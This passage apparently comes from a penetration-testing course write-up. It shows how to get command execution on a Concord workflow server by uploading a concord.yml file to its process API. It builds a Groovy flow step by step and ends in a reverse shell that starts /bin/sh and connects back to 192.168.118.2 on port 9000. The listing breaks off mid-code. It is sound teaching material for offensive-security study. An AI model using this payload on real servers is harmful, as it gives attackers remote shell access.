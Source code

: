 According to curl, the -F flag specifies multipart data.

Based on this, we conclude that we can start a process by sending a request to /api/v1/process with a ZIP file named "archive" containing a concord.yml file.

If we dig deeper into the documentation, we discover that we don't even need to provide a ZIP file, only a concord.yml file.

Figure 21: Start Process with Only concord.yml
Figure 21: Start Process with Only concord.yml
Next, let's review the process documentation to search for potential paths to code execution.

The "Directory Structure" section5 defines the concord.yml file:

concord.yml: a Concord DSL file containing the main flow, configuration, profiles and other declarations;

In Concord, a DSL file defines various configurations, flows, and profiles.6 Earlier, the documentation mentioned that the uploaded file must contain a flow. Let's review the documentation pertaining to a flow:

Figure 22: Flow Documentations
Figure 22: Flow Documentations
Concord describes a flow as a "series of steps executing various actions". This seems to be a perfect command execution vector. Let's determine how we can get Concord to execute system commands.

We can find examples of flows that execute code in the "Scripting" section of the documentation.7 We'll use the Groovy example to build our payload.

Figure 23: Groovy Documentation
Figure 23: Groovy Documentation
The documentation indicates that we must first import the groovy dependency:

configuration:
  dependencies:
  - "mvn://org.codehaus.groovy:groovy-all:pom:2.5.2"

Listing 10 - Building Groovy Payload - Dependency

Next, since the documentation states we must provide at least one flow, we'll set the script variable to "groovy" (as shown in the example) to instruct concord to execute the command as groovy.

configuration:
  dependencies:
  - "mvn://org.codehaus.groovy:groovy-all:pom:2.5.2"
flows:
  default:
    - script: groovy
Listing 11 - Building Groovy Payload - flow

Once that is set up, we need to add a body with a script. We'll use a YML HereDoc8 for this so we don't have to write a one-liner. We'll use a common groovy reverse shell as our script and format it for readability.9

configuration:
  dependencies:
  - "mvn://org.codehaus.groovy:groovy-all:pom:2.5.2"
flows:
  default:
    - script: groovy
      body: |
         String host = "192.168.118.2";
         int port = 9000;
         String cmd = "/bin/sh";
         Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
         Socket s = new Socket(host, port);
         InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
         OutputStream po = p.getOutputStream(), so = s.getOutputStream();
         while (!s.isClosed()) {
         while (pi.available() > 0) so.write(pi.read());